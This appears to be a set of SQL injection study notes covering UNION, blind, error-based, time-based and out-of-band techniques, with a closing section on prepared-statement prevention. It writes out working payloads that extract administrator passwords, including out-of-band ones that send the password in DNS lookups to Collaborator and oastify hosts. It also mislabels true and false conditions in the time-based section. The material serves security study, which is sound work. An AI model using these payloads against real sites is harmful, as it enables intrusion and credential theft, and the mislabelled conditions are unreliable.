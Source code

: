 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' = 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Occurs when the application is vulnerable to SQLI but the HTTP response does not contain the query result.
- Allows attackers to infer information based on differing server responses.
- Ineffective with UNION attacks.

## Blind SQLI Query Example
- Cookie TrackingID header in application uses SQL query to trace user data analytics.
-	Example query of Cookie TrackingID:
-	SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
-	It can be exploited through blind SQLI vulnerability.
-	eg of exploit: xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
-	force a true condition and return password where first character is greater than m.
-	possible attacks:use Boolean to determine the true false of the criteria, eg: if the password length is more than x, starts with what alphabet
-	then brute force base on response to get credentials.


## Error-Based SQLI
-	Using error to extract or infer sensitive data.
-	Boolean condition might and might not work.
-	eg: ' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a 
-	eg: '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-	Can also extract sensitive data through verbose SQL errors when certain data is returned by the query.
-	Using CAST() function to convert data types when conditional responses is prevented.
-	eg: CAST((SELECT example_column FROM example_table) AS int)
-	Example of working Error-Based SQLI that returns the data through error message:
  -	' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—
  -	' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—


## Time-based SQLI
-	If the database can handle error of the query from error-based SQLI, time-based SQLI can be tested to see the response timing of the time delay.
-	Database type specific queries.
-	eg: '; IF (1=2) WAITFOR DELAY '0:0:10'— (wont trigger time delay as it is true condition)
-	eg: '; IF (1=1) WAITFOR DELAY '0:0:10'--  (trigger time delay as it is false condition)
-	Example of working Time-based SQLI:
-	';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users--

## OAST SQLI (Out-of-band Application Security Testing)
-	A variation of Blind SQLI.
-	Makes the server to interact with another system under attacker’s control through another protocol (mainly DNS).
-	Uses burp collaborator to detect network interaction.
-	eg:'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—
-	The query ran on Microsoft SQL Server will cause DNS lookup on specific domain (0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net).
-	Example of using UNION and XXE to cause the database to run DNS lookup on collaborator subdomain:
  -	'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual—
-	Example of having SQLI in OAST to leak data:
  -	'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')—
  -	'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—
  -	The leaked data will be within the subdomain name: p4ssword. cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

## Bypassing SQLI Filters
-	Using hackvector extension in burpsuite to encode the payload to dec_entities or hex_entities allows xml WAP bypass.
-	eg: <@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>

## Checking Database version:
-	MySQL: SELECT @@version
-	Oracle: SELECT * FROM v$version
-	PostgreSQL: SELECT version()

## Database Schema:
-	SELECT * FROM information_schema.tables
-	SELECT * FROM information_schema.columns WHERE table_name = 'Users'

## SQLI Prevention:
-	The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  -	String query = "SELECT * FROM products WHERE category = '"+ input + "'";
  -	Statement statement = connection.createStatement();
  -	ResultSet resultSet = statement.executeQuery(query);
-	To fix the code make the user input to not interfere with the SQL query:
  -	PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
  -	statement.setString(1, input);
  -	ResultSet resultSet = statement.executeQuery();
-	By parameterizing the query, user input can’t affect the main query. Such as:
  -	whitelisting inputs.
  -	using different logic 
  -	hard-coded constant 
  -	not contain any variable data from origin

